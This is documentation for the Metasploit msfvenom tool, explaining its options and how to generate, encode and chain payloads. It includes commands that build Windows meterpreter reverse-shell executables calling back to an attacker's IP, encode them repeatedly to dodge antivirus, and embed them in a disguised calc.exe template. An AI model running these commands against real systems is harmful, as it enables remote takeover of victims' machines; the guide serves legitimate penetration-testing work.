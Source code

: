 Msfvenom is the combination of payload generation and encoding. It will replace msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

```
Options:
    -p, --payload    <payload>       Payload to use. Specify a '-' or stdin to use custom payloads
    -l, --list       [module_type]   List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled    <length>        Prepend a nopsled of [length] size on to the payload
    -f, --format     <format>        Output format (use --help-formats for a list)
    -e, --encoder    [encoder]       The encoder to use
    -a, --arch       <architecture>  The architecture to use
        --platform   <platform>      The platform of the payload
    -s, --space      <length>        The maximum size of the resulting payload
    -b, --bad-chars  <list>          The list of characters to avoid example: '\x00\xff'
    -i, --iterations <count>         The number of times to encode the payload
    -c, --add-code   <path>          Specify an additional win32 shellcode file to include
    -x, --template   <path>          Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
        --payload-options            List the payload's standard options
    -o, --out   <path>               Save the payload
    -v, --var-name <name>            Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message
        --help-formats               List available formats
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:

```
cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
```

* **The -f flag: Specifies the format of the payload**

Syntax example:

```
./msfvenom -p windows/meterpreter/bind_tcp -f exe
```

To see what formats are supported, you can do the following to find out:

```
./msfvenom --help-formats
```

Typically, this is probably how you will use msfvenom:

```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```


# How to encode a payload

By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
```

To find out what encoders you can use, you can use the -l flag:

```
./msfvenom -l encoders
```

You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

```
./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
```

# How to avoid bad characters

The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

```
./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
```

# How to supply a custom template

By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

```
./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
```

Please note: If you'd like to create a x64 payload with a custom x64 custom template for Winodws, then instead of the exe format, you should use exe-only:

```
./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

# How to chain msfvenom output

The old ``msfpayload`` and ``msfencode`` utilities were often chained together in order layer on multiple encodings. This is possible using ``msfvenom`` as well:

```
./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```
